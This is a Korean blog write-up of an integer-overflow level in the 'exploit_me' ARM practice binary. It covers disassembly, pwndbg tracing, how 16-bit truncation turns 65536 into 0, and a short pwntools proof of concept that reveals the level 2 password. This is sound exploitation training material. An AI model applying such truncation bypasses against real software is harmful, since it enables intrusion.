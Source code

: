 ```yaml
---
title: "[pwnable] ARM exploit 정리"
excerpt: "exploit_me"

categories:
  - pwn
tags:
  - [pwnable, exploit]

permalink: /pwn/exploit_me/

toc: true
toc_sticky: true

date: 2024-12-18
last_modified_at: 2024-12-18
---
```


github에 arm exploit을 정리하기에 좋은 예제가 있어서 이를 이용해서 정리해보고자 합니다.

👉🏻 [exploit_me](https://github.com/bkerler/exploit_me.git)

m1 mac에서 진행하지만 pwnable 환경 자체가 linux x64 환경이기 때문에 qemu를 이용하여 진행하였습니다.

👉🏻 [qemu 정리](https://parkhoho.github.io/pwn/qemu/)

## ☝🏻 정수 오버플로우
main을 disassemble해보면 int_overflow 함수를 찾을 수 있다.

이 함수가 level2 password의 힌트다.
> 참고로 level1 password의 경우 바이너리를 실행시키면 찾을 수 있다.

```
qemu-aarch64-static -L /usr/aarch64-linux-gnu/ -g 8888 ./exploit64 hello 11111
```

11111이라는 값을 줬고, 이 11111을 어떻게 처리하는지 살펴보자.



```asm
0x0000000000401490 <+0>:	stp	x29, x30, [sp, #-48]!
0x0000000000401494 <+4>:	mov	x29, sp
0x0000000000401498 <+8>:	str	x0, [sp, #24]
0x000000000040149c <+12>:	ldr	x0, [sp, #24]
0x00000000004014a0 <+16>:	bl	0x4171b8 <atoi>
0x00000000004014a4 <+20>:	str	w0, [sp, #44]
0x00000000004014a8 <+24>:	ldr	w0, [sp, #44]
0x00000000004014ac <+28>:	str	w0, [sp, #40]
0x00000000004014b0 <+32>:	ldr	w0, [sp, #40]
0x00000000004014b4 <+36>:	cmp	w0, #0x0
0x00000000004014b8 <+40>:	b.ne	0x4014d0 <_Z12int_overflowPc+64>  // b.any
0x00000000004014bc <+44>:	adrp	x0, 0x470000 <_nl_archive_subfreeres+104>
0x00000000004014c0 <+48>:	add	x0, x0, #0x7e8
0x00000000004014c4 <+52>:	bl	0x425e30 <puts>
0x00000000004014c8 <+56>:	mov	w0, #0x0                   	// #0
0x00000000004014cc <+60>:	bl	0x417b30 <exit>
0x00000000004014d0 <+64>:	ldr	w0, [sp, #44]
0x00000000004014d4 <+68>:	strh	w0, [sp, #38]
0x00000000004014d8 <+72>:	ldrh	w0, [sp, #38]
0x00000000004014dc <+76>:	cmp	w0, #0x0
0x00000000004014e0 <+80>:	b.eq	0x401500 <_Z12int_overflowPc+112>  // b.none
0x00000000004014e4 <+84>:	ldrh	w0, [sp, #38]
0x00000000004014e8 <+88>:	mov	w1, w0
0x00000000004014ec <+92>:	adrp	x0, 0x470000 <_nl_archive_subfreeres+104>
```


int_overflow의 disassemble한 코드다.

1. `stp x29,x30,[sp,#-48]!` `mov x29,sp`를 통해 스택 정리
2. `str x0,[sp,#24]`,`ldr x0,[sp,#24]`를 통해 값을 가져온다.
3. atoi를 이용하여 값을 읽음
4. 이 값을 0과 비교하여 같지 않으면 첫번째 branch를 통가하게 된다.(같으면 exit)
5. 이후 다시 재배열한 값을 가져와서 0과 같으면 jmp 한다.(0과 같지 않으면 exit)
6. 즉, 입력한 값이 0이거나 0보다 작아야 한다.


이때 11111를 통해 내부에서 어떤 결과가 나오는지 확인해보자.


```bash
b *int_overflow
c
```

이때 나오는 결과는 아래와 같다.

```assembly
  0x401490 <int_overflow(char*)>       stp    x29, x30, [sp, #-0x30]!       <main+224>
  0x401494 <int_overflow(char*)+4>     mov    x29, sp
  0x401498 <int_overflow(char*)+8>     str    x0, [sp, #0x18]
  0x40149c <int_overflow(char*)+12>    ldr    x0, [sp, #0x18]
  0x4014a0 <int_overflow(char*)+16>    bl     #atoi                     <atoi>

  0x4014a4 <int_overflow(char*)+20>    str    w0, [sp, #0x2c]
  0x4014a8 <int_overflow(char*)+24>    ldr    w0, [sp, #0x2c]
  0x4014ac <int_overflow(char*)+28>    str    w0, [sp, #0x28]
  0x4014b0 <int_overflow(char*)+32>    ldr    w0, [sp, #0x28]
  0x4014b4 <int_overflow(char*)+36>    cmp    w0, #0
  0x4014b8 <int_overflow(char*)+40>    b.ne   #int_overflow(char*)+64                     <int_overflow(char*)+64>
  ...
```


이때 아까 설명한 조건들을 우회하기 위해 breakpoint를 다음과 같이 준다.
```
b *int_overflow+40
b *int_overflow+80
b *int_overflow+120
```


continue 한 후에 w0의 값을 확인해보자.

```bash
c
```

```bash
pwndbg> info r w0
w0             0x2b67              11111
```


즉 w0에는 11111의 hex값인 0x2b67이 들어가 있다.


따라서 w0이 0보다 크기 때문에 jmp를 하게 된다.

다음 조건으로는 그 값을 다시 가져와 0과 비교를 하게 된다.


이때 w0은 아까와 마찬가지로 0x2b67이 들어가있기 때문에 jmp를 하지 못한다.


따라서 다음과 같이 printf()와 exit를 만나 프로그램이 종료가 된다.

```assembly
0x4014e4 <int_overflow(char*)+84>     ldrh   w0, [sp, #0x26]
 ► 0x4014e8 <int_overflow(char*)+88>     mov    w1, w0
   0x4014ec <int_overflow(char*)+92>     adrp   x0, #_nl_archive_subfreeres+104 <0x470000>
   0x4014f0 <int_overflow(char*)+96>     add    x0, x0, #0x810
   0x4014f4 <int_overflow(char*)+100>    bl     #printf                     <printf>

   0x4014f8 <int_overflow(char*)+104>    mov    w0, #0
   0x4014fc <int_overflow(char*)+108>    bl     #exit                     <exit>
```

즉, 원하는 값을 얻기 위해서는 w0에 0을 넣어야 한다.
하지만 입력값에 0을 넣게 되면 password를 얻지 못하기 때문에 다른 방식을 사용해야 한다.

## 해결방법
다음은 int_overflow의 동작과정 중 하나이다.

이때 `strh`와 `ldrh` 명령어를 통해 w0에 특정 값을 저장하고 있는 것을 확인할 수 있다.

```assembly
0x4014d0 <int_overflow(char*)+64>    ldr    w0, [sp, #0x2c]
0x4014d4 <int_overflow(char*)+68>    strh   w0, [sp, #0x26]
0x4014d8 <int_overflow(char*)+72>    ldrh   w0, [sp, #0x26]
► 0x4014dc <int_overflow(char*)+76>    cmp    w0, #0
0x4014e0 <int_overflow(char*)+80>    b.eq   #int_overflow(char*)+112                     <int_overflow(char*)+112>
```

`strh`과 `ldrh`는 halfword 크기만큼을 저장하고 로드하는 명령어다.

👉🏻 [참고](https://developer.arm.com/documentation/ddi0406/c/Application-Level-Architecture/Instruction-Details/Alphabetical-list-of-instructions/LDRH--immediate--Thumb-?lang=en)


그렇기에 2^16 값을 넣게 된다면 0이 저장되게 된다.


다음은 2^16을 입력으로 하여 바이너리를 분석한 결과다.

```
pwndbg> b *int_overflow+80
```

```
0x4014cc <int_overflow(char*)+60>     bl     #exit                     <exit>

   0x4014d0 <int_overflow(char*)+64>     ldr    w0, [sp, #0x2c]
   0x4014d4 <int_overflow(char*)+68>     strh   w0, [sp, #0x26]
   0x4014d8 <int_overflow(char*)+72>     ldrh   w0, [sp, #0x26]
   0x4014dc <int_overflow(char*)+76>     cmp    w0, #0
 ► 0x4014e0 <int_overflow(char*)+80>     b.eq   #int_overflow(char*)+112                     <int_overflow(char*)+112>
    ↓
   0x401500 <int_overflow(char*)+112>    ldr    w0, [sp, #0x2c]
   0x401504 <int_overflow(char*)+116>    cmp    w0, #0
   0x401508 <int_overflow(char*)+120>    b.lt   #int_overflow(char*)+136                     <int_overflow(char*)+136>

   0x40150c <int_overflow(char*)+124>    ldrh   w0, [sp, #0x26]
   0x401510 <int_overflow(char*)+128>    cmp    w0, #0
```

```bash
pwndbg> info r w0
w0             0x0                 0
```

## PoC
Expoit Code를 제작해보자.
```python
~
"exploit.py" 15L, 317B                                        7,0-1         All
from pwn import *

def lv1():
    args_lv1 = "65536"
    p = process(['./exploit64', 'hello', args_lv1])
    print(p.recvline())

if __name__ == "__main__":
    lv1()
```
```bash
hoho@hoho:~/exploit_me/bin$ python3 ./exploit.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/hoho/.cache/.pwntools-cache-3.12/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.13.1)
[+] Starting local process './exploit64': pid 1515
b'Level 2 Password: "help"\n'
[*] Stopped process './exploit64' (pid 1515)
```

위와 같이 Level 2 Password를 확인할 수 있다.
